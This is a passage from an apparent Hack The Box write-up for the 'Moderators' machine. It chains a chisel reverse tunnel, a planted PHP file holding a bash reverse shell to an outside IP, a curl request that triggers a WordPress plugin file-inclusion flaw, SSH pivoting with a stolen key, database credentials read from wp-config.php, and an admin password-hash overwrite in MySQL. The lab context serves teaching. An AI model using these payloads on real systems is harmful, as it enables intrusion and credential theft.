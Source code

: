 ```console
zero@pio$ chisel server --reverse --port 8000
```

And in the target:

```console
www-data@moderators:/var/www/html/logs/uploads $ ./chisel client 10.10.14.10:8000 R:8080:127.0.0.1:8080
```

We found a Wordpress there, vulnerable to this [exploit](https://www.exploit-db.com/exploits/39591).  Start by creating a user folder:

```console
www-data@moderators:~/html/logs/uploads$ mkdir user
www-data@moderators:~/html/logs/uploads/user$ cat wp-load.php 
<?php system("bash -c 'bash -i >& /dev/tcp/10.10.16.44/443 0>&1'"); ?>
```

Using the plugin call the exploit while openning a netcat:

```console
zero@pio$ sudo netcat -lvnp 443
Listening on 0.0.0.0 443

zero@pio$ curl "http://localhost:8080/wp-content/plugins/brandfolder/callback.php?wp_abspath=/var/www/html/logs/uploads/user/"
```

Now we are as **lexi** user, we can even get the RSA for a more stable shell. Also, we can change the port forwarding using ssh:

```console
zero@pio$ ssh -L 8080:localhost:8080 -i rsa_lexi lexi@10.10.11.173
```

Searching for creds in the system we found a file. Inspecting it we get:

```console
lexi@moderators:/opt/site.new$ cat wp-config.php

	/** MySQL database username */
	define( 'DB_USER', 'wordpressuser' );
	
	/** MySQL database password */
	define( 'DB_PASSWORD', 'wordpresspassword123!!' );
```

We found in the MySQL the password, but it is encrypted. We can try changing it to **password**:

```console
lexi@moderators:~$ mysql -Dwordpress -uwordpressuser -p'wordpresspassword123!!'
MariaDB [wordpress]> UPDATE `wp_users` SET `user_pass` = '$P$BIsDcvvyUHRF.QKXlJzhA9.kgCsuxL/' WHERE user_login = 'admin';
```

Also, we need to add **moderators.htb** to the `/etc/hosts`{: .filepath} to make it work. If we go to **/wp-admin** it will redirect us in **moderators.htb**. It should look like:
